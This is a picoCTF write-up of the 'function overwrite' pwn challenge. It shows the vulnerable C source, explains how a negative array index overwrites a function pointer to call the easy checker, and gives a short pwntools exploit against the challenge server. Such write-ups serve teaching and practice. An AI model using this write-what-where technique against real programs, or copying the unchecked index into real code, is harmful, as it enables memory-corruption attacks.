



# function overwrite [Pwn]

Link : [function overwrite](https://play.picoctf.org/practice/challenge/272?category=6&originalEvent=70&page=2)

Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}

void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 13371337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};

void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
 
int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```






When I read the code, I realized that *check* points to *hard_checker*.

To exploit it, you would have to point *check* to *easy_checker*.

Then, you have to fill *story* with values whose sum is equal to *1337*



*story* could be *abcdefghijklk*, the sum is indeed equal to *1337*.

To point *check* to *easy_checker*, I thought of  [Write-what-where Condition](https://www.martellosecurity.com/kb/mitre/cwe/123/)

*vuln()* fonction

```C
......
if (num1 < 10)
{
  fun[num1] += num2;
}
.....
```

We will use the integer array *fun* to access *check* in order to point it to *easy_checker*.

We will use the index num1 of the array *fun* to access *check* and num2 to modify its value.

First, we determine the offset between *fun* and *check* for *num1*.



```
0x0804c040  check
0x0804c080  fun
```

```python
0x0804c080 - 0x0804c040 = 64
fun - check = 64
fun - 64 = check
```

To access *check* you have to subtract 64 from the address of *fun*.

As num1 is of type int, **num1 = -64/sizeof(int)**


Second, we point *check* to *easy_checker*.

*check* points to *hard_checker*

To point it to *easy_checker*, we must first determine the offset between *hard_checker* and *easy_checker*.

```python
0x8049436 - 0x80492fc = 314
hard_checker - easy_checker = 314
hard_checker - 314 = easy_checker
```
So, to point *check* to *easy_checker* we have to subtract 314 from the address of *hard_checker*.
As *check* contains the address of *hard_checker*, we decrease its value by 314.

**num2 = -314**


Exploit:

```python
from pwn import *

sh = remote("saturn.picoctf.net",53163)
print(sh.recv().decode())
sh.sendline(b"abcdefghijklk")
print(sh.recv().decode())
sh.sendline(b"-16 -314")
print(sh.recv().decode())
```

Result:


